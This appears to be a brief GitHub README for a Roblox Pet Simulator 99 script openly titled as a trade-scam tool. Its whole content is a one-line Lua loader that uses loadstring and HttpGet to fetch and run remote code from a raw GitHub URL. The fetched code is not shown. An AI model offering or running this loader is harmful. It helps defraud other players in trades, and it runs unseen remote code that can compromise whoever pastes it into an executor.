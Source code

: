 # PS99-TRADE-SCAM-SCRIPT

SCRIPT loadstring(game:HttpGet('https://raw.githubusercontent.com/tobi437a/Scripts/refs/heads/main/d06ccd9aa413611850633955.lua'))()
